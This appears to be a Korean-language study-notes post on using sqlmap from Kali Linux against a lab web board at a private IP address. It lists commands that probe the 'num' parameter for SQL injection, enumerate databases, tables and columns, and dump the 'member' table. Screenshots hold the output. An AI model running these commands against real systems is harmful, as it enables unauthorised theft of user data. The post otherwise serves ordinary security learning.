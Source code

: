 ```yaml
---
title:  "sqlmap" 

categories:
  - injection
tags:
  - [injection]

toc: true

date: 2022-11-01
last_modified_at: 2022-11-01
---
```


- sqlmap 실행 테스트

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap
  ```

  ![화면 캡처 2022-11-01 165112](../../assets/img/화면 캡처 2022-11-01 165112-1667289132750-24.png)

- 도움말 확인

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap -h
  ```

  ![화면 캡처 2022-11-01 165322](../../assets/img/화면 캡처 2022-11-01 165322.png)

  ![화면 캡처 2022-11-01 165353](../../assets/img/화면 캡처 2022-11-01 165353.png)

- 취약점 확인

  ![화면 캡처 2022-11-01 165724](../../assets/img/화면 캡처 2022-11-01 165724.png)

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num"
  ```

  ![화면 캡처 2022-11-01 170159](../../assets/img/화면 캡처 2022-11-01 170159.png)

  ![화면 캡처 2022-11-01 170230](../../assets/img/화면 캡처 2022-11-01 170230.png)

- 데이터베이스 목록

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" --dbs
  ```

  ![화면 캡처 2022-11-01 171542](../../assets/img/화면 캡처 2022-11-01 171542.png)

- 지정된 데이터베이스내의 테이블 목록

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" --tables
  ```

  ![화면 캡처 2022-11-01 171609](../../assets/img/화면 캡처 2022-11-01 171609.png)

- member 테이블의 칼럼

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" -T "member" --column
  ```

  ![화면 캡처 2022-11-01 171627](../../assets/img/화면 캡처 2022-11-01 171627.png)

- member 테이블의 내용을 추출

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" -T "member" --dump
  ```

  ![화면 캡처 2022-11-01 171658](../../assets/img/화면 캡처 2022-11-01 171658.png)

- 추출한 내용이 저장된다

  ![화면 캡처 2022-11-01 171140](../../assets/img/화면 캡처 2022-11-01 171140.png)

  ![화면 캡처 2022-11-01 171351](../../assets/img/화면 캡처 2022-11-01 171351.png)